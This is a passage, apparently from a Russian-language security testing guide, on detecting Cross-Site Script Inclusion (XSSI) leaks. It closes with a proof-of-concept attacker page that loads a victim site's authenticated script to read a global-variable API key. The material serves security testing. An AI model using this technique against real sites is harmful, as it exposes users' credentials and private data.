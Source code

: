 - Найти в системе чувствительные данные.
- Оценить возможность их утечки с помощью различных методов.

## Как тестировать

### Сбор информации с помощью аутентифицированных и неаутентифицированных сессий пользователей

Узнайте, какие конечные точки отвечают за отправку чувствительных данных, какие параметры им требуются, и все соответствующие им динамически и статически сгенерированные ответы JavaScript через аутентифицированные сессии пользователя. Обратите особое внимание на чувствительные данные, передаваемые в [JSONP](https://ru.wikipedia.org/wiki/JSONP). Чтобы найти динамически сгенерированные ответы JavaScript, сгенерируйте аутентифицированные и неаутентифицированные запросы, а затем сравните их. Если они разные, это означает, что ответ динамический; в противном случае он статичен. Чтобы упростить эту задачу, можно использовать такой инструмент, как плагин [Veit Hailperin к Burp](https://github.com/luh2/DetectDynamicJS). Обязательно проверьте и другие типы файлов помимо JavaScript; XSSI не ограничивается только им.

### Могут ли чувствительные данные быть раскрыты с помощью JavaScript?

Тестировщикам следует проанализировать на предмет утечки данных через XSSI-уязвимости код следующих сущностей:

1. Глобальные переменные
2. Глобальные параметры функций
3. CSV (значения, разделённые запятыми) с «кражей цитат»
4. Ошибки выполнения JavaScript
5. Цепочка прототипов с `this`

### 1. Утечка чувствительных данных через глобальные переменные

Ключ API хранится в файле JavaScript с URL `https://victim.com/internal/api.js` на сайте жертвы, `victim.com`, который доступен только для аутентифицированных пользователей. Злоумышленник контролирует сайт `attackingwebsite.com`, и использует тег `<script>` для ссылки на файл JavaScript.

Ниже код `https://victim.com/internal/api.js`:

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

На сайте злоумышленника `attackingwebsite.com` размещается `index.html` со следующим кодом:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Утечка данных через глобальные переменные</title>
  </head>
  <body>
    <h1>Утечка данных через глобальные переменные</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Вот ваш секрет: <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```
